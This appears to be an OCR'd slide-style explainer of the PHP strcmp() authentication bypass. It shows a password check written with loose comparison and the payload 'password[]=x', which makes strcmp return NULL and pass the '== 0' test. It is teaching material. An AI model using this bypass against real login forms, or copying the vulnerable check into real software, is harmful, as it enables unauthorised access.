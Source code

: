 
The `strcmp($str1, $str2)` function compares two strings.

The only possible return values are:

- **0**, if `$str1` is equal to `$str2`
- **< 0**, if `$str1` is less than `$str2`
- **\> 0**, if `$str1` is greater than `$str2`

---

## The strcmp() Vulnerability

```php
<?php
    if (strcmp($password, $_POST["password"]) == 0) {
        $success = true;
    } else {
        $success = false;
    }
?>
```

---

## Exploiting strcmp() - send POST data as array

`password[]=x` => `$_POST["password"] is an array`

---

## It gives a warning

`strcmp($password, [])` => warning:

`Warning: strcmp() expects parameter 2 to be string, array given in index.php on line 5`

---

## The result

But still, it has a return value:

`strcmp($password, []) = NULL`

---

## Finally

```php
<?php
    if (strcmp($password, $_POST["password"]) == 0) {
    //  if (NULL == 0) {
        $success = true;
    } else {
        $success = false;
    }
?>
```

---